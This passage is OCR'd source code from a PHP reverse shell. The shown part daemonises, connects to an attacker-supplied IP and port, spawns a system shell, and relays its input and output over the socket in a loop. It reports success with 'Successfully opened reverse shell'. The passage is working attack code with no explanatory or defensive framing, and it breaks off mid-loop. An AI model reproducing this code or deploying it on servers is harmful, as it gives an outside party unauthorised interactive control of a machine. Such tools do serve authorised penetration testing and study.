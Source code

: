 ```
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
```
